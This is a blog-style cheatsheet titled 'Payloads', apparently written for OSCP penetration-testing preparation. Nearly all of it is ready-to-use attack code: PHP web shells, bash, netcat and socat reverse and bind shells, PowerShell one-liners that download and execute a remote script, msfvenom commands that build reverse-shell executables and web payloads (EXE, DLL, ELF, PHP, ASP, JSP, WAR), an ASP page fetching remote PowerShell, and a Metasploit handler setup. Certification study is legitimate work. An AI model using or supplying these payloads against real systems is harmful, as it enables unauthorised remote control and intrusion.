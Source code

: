 ```yaml
---
title: Payloads
author: sKyW1per
category: "OSCP"
date: "2021-03-06 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Kali Webshells
```
Kali ready-to-go webshells
/usr/share/webshells/
/usr/share/seclists/Web-Shells/
```

###### PHP code snippets
```php
/*PHP code for a simple web shell:*/
<?=`$_GET[0]`?>
<?php echo shell_exec($_GET['cmd']); ?>
<?php $cmd=$_GET['cmd']; system($cmd);?>

/*PHP to immediately pop a shell (linux-only)*/
<?php $sock=fsockopen("192.168.119.1",443); exec("/bin/sh -i <&3 >&3 2>&3");?>
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.119.1/443 0>&1'");?>
```

###### Ready-to-go reverse shell payloads
```
Nishang
https://github.com/samratashok/nishang

PayloadsAllTheThings
https://github.com/swisskyrepo/PayloadsAllTheThings

Pentestmonkey Cheatsheet
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Shell Spawning with NetSec
https://netsec.ws/?p=337
```

###### Pop a shell from bash
```
Bash
$ bash -i >& /dev/tcp/192.168.119.1/443 0>&1

Netcat
$ nc -e /bin/bash 192.168.119.1 443
```

###### Powershell
```
PS download payload and execute immediately
$ powershell.exe -c IEX (New-Object System.Net.WebClient).DownloadString('
http://192.168.119.1/Invoke-PowerShellTcp.ps1')
$ powershell.exe -c IEX (New-Object Net.WebClient).DownloadString('
http://192.168.119.1/Invoke-PowerShellTcp.ps1')

or newer variant:
$ powershell.exe -c 'IEX(IWR http://192.168.1.1/Invoke-PowerShellTcp.ps1 -UseBasicParsing)'

How to use powershell to pop a second connection with interactive shell
Open a listener on 1 port and a web server with payload on another. Then run:
$ Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://192.168.119.1/Invoke-PowerShellTcp.ps1')"
```

###### List msfvenom payload options
```
$ msfvenom -l payloads | grep php
$ msfvenom -l archs
$ msfvenom -l formats
```

###### Windows payloads for in a python script
```
Unstaged payload
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.1 LPORT=443 -b "\x00" -f python -v shellcode -a x86 --platform windows > payload.txt

Staged payload
$ msfvenom -p windows/shell/reverse_tcp LHOST=192.168.119.1 LPORT=443 -b "\x00" -f python -v shellcode -a x86 --platform windows > payload.txt
```

###### Windows reverse shells
```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.1 LPORT=443 -f dll > msf.dll
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.1 LPORT=443 -f exe > shell.exe
```

###### Linux reverse shells
```
x86
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.1 LPORT=443 -f elf > shell.elf
x64
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.119.1 LPORT=443 -f elf > shell.elf
$ msfvenom -p cmd/unix/reverse_bash LHOST=192.168.119.1 LPORT=443 -f raw > shell.sh
```

###### Some more reverse shells
```
.php
$ msfvenom -p php/reverse_php LHOST=192.168.119.1 LPORT=443 -f raw > shell.php
.asp
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.1 LPORT=443 -f asp > shell.asp
.jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.1 LPORT=443 -f raw > shell.jsp
.war
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.1 LPORT=443 -f war > shell.war
```

###### Simple ASP(X?) payload without importing additional libraries
```
<%
Set s = CreateObject("WScript.Shell")
Set cmd = s.Exec("cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://192.168.1.1:80/InvokePowerShellTcp.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
>
```

###### Netcat reverse shell
```
Set up a listener
$ nc -nvlp 443

Connect to the listener (Windows)
$ nc -nv 192.168.119.1 443 -e cmd.exe
Connect to the listener (Linux)
$ nc -nv 192.168.119.1 443 -e /bin/bash
```

###### Netcat bind shell
```
Set up a listener (bind shell) (Windows target)
 $ nc -nvlp 192.168.1.1 443 -e cmd.exe
Set up a listener (bind shell) (Linux target)
 $ nc -nvlp 192.168.1.1 443 -e /bin/bash

Connect to the listener
$ nc -nv 192.168.119.1 443
```

###### Socat encrypted bind shell
```
Set up a listener (bind shell)(Linux target)
$ sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash

Connect to the listener
$ socat -d -d - OPENSSL:192.168.1.1:443,verify=0
```

###### Metasploit Multi Handler (.rc script)
```
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set LHOST 192.168.119.1
set LPORT 443
set ExitOnSession false
exploit -j -z
```
